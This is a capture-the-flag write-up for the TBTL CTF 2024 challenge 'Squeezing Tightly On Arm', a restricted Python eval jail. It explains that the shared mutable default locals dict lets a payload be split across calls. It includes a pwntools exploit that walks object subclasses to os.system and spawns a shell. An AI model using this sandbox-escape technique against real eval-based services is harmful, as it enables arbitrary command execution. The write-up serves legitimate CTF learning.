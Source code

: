 # TBTL CTF 2024 Squeezing Tightly On Arm

```python
import sys
version = sys.version_info
del sys

FLAG = 'TBTL{...}'
del FLAG


def check(command):

    if len(command) > 120:
        return False

    allowed = {
        "'": 0,
        '.': 1,
        '(': 1,
        ')': 1,
        '/': 1,
        '+': 1,
        }

    for char, count in allowed.items():
        if command.count(char) > count:
            return False

    return True


def safe_eval(command, loc={}):

    if not check(command):
        return

    return eval(command, {'__builtins__': {}}, loc)


for _ in range(10):
    command = input(">>> ")

    if command == 'version':
        print(str(version))
    else:
        safe_eval(command)
```

Requirements:

1. No `'`: Use `"` for strings
2. Some characters may appear only once: save intermediate values to locals
3. No builtins: Use `().__class__.__base__.__subclasses__()` to bypass

The major problem here, is that the default argument `loc={}` is shared between calls. So the locals array is only one and shared between calls to `safe_eval`. So we can simply cut the attack `().__class__.__base__.__subclasses__()[158].__init__.__globals__["system"]["sh"]` into multiple steps:

```python
from pwn import *

context(log_level="debug")

subclasses = str(().__class__.__base__.__subclasses__())

# find the indices of the builtins
# assuming we are using the same Python version as remote

# assuming os._wrap_close is at 158
os_index = 158
assert subclasses.split(", ").index("<class 'os._wrap_close'>") == os_index

p = process(["python3", "squeezing_tightly_on_arm.py"])

# A=().__class__
p.recvuntil(b">>> ")
p.sendline(b"[A:=().__class__]")

p.recvuntil(b">>> ")
# B=().__class__.__base__
p.sendline(f"[B:=A.__base__]".encode())

p.recvuntil(b">>> ")
# C=().__class__.__base__.__subclasses__()
# O=C[os_index]=<class 'os._swap_close'>
p.sendline(f"[C:=B.__subclasses__(),O:=C[{os_index}]]".encode())

# O=<class 'os._wrap_close'>.__init__
p.recvuntil(b">>> ")
p.sendline(f"[O:=O.__init__]".encode())

# <class 'os._wrap_close'>.__init__.__globals__["system"]("sh")
p.recvuntil(b">>> ")
p.sendline(f'[O.__globals__["system"]("sh")]'.encode())

p.interactive()
```
